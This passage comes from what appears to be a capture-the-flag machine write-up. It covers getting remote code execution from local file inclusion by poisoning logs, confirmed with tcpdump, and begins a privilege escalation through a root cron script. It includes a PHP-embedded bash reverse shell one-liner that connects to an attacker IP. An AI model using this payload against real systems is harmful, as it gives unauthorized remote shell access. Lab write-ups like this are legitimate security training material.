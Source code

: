 Afterwards, I used the LFI to view the logs again, and I got a callback on `tcpdump`.&#x20;

```
$ sudo tcpdump -i tun0 icmp           
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:42:51.905282 IP 10.129.95.191 > 10.10.14.13: ICMP echo request, id 18968, seq 1, length 64
23:42:51.905304 IP 10.10.14.13 > 10.129.95.191: ICMP echo reply, id 18968, seq 1, length 64
23:42:51.915887 IP 10.129.95.191 > 10.10.14.13: ICMP echo request, id 18970, seq 1, length 64
23:42:51.915910 IP 10.10.14.13 > 10.129.95.191: ICMP echo reply, id 18970, seq 1, length 64
23:42:51.926200 IP 10.129.95.191 > 10.10.14.13: ICMP echo request, id 18972, seq 1, length 64
23:42:51.926218 IP 10.10.14.13 > 10.129.95.191: ICMP echo reply, id 18972, seq 1, length 64
23:42:51.936922 IP 10.129.95.191 > 10.10.14.13: ICMP echo request, id 18974, seq 1, length 64
23:42:51.936935 IP 10.10.14.13 > 10.129.95.191: ICMP echo reply, id 18974, seq 1, length 64
23:42:51.948046 IP 10.129.95.191 > 10.10.14.13: ICMP echo request, id 18976, seq 1, length 64
23:42:51.948058 IP 10.10.14.13 > 10.129.95.191: ICMP echo reply, id 18976, seq 1, length 64
```

Great, we now have RCE. We just need to include a `bash` reverse shell one-liner. We can use this:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'") ?>
```

After viewing the page again, we would get a shell as `www-data`.

<figure><img src="../../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### Cron --> FTP Creds --> Perl RCE

I downloaded LinPEAS to the machine and it did the enumeration for me. Within the `cronjob` section, it found 1:

```
* * * * * root /usr/local/bin/csvupdate_cron
```

This was running a bash script as `root`, and we can view it:

```bash
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```
